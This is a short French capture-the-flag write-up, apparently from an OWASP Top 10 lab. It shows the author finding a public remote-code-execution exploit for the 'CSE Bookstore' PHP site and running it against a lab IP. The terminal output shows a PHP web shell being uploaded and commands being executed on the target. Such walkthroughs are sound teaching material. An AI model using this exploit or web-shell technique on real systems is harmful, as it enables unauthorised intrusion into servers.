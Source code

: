 ![site](/assets/img/posts/OWASP-top-10/site.png)

Je constate que le site est fait avec PHP et MYSQL et il s'appelle CSE Bookstore donc je mets ce nom dans exploitDB et voici ce que je trouve :

[exploit-RCE](https://www.exploit-db.com/exploits/47887)

Je décide d'utiliser celui ci car nous ce qu'on cherche se trouve dans `/opt/flag.txt` donc on a besoin d'un nouveau shell pour se connecter à leur machine.

```bash
┌──(omnimessie㉿omnimessie)-[~/Downloads]
└─$ nvim 47887.py 
                                                                                                          
┌──(omnimessie㉿omnimessie)-[~/Downloads]
└─$ chmod 777 47887.py 
                                                                                                          
┌──(omnimessie㉿omnimessie)-[~/Downloads]
└─$ python3 47887.py http://10.10.21.172:84
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.21.172:84/bootstrap/img/U4QTRdwOz2.php
> Example command usage: http://10.10.21.172:84/bootstrap/img/U4QTRdwOz2.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ ls
U4QTRdwOz2.php
android_studio.jpg
beauty_js.jpg
c_14_quick.jpg
c_sharp_6.jpg
doing_good.jpg
img1.jpg
img2.jpg
```